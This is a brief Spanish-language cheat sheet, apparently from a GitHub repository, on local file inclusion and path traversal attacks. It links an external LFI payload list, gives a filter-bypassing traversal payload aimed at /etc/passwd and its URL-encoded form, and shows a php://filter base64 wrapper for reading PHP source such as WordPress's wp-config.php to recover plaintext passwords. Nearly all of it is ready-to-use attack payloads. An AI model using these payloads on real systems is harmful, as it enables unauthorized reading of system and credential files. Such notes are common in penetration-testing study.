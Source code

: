 # LFI & Path Traversal

## LFI
- [Paylaods Fuzzing](https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt)
- Ejemplo para bypassear filtros: `....//....//....//....//etc/passwd`
- Encodearlo en URL también sirve: `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`

## como poder ver archivos mediante path traversal
- `php://filter/read=convert.base64-encode/resource=ARCHIVO-PHP`
- Con esto podriamos ver una clave en texto plano en un wordpress, en el wp-config por ejemplo, el phpinfo, etc.
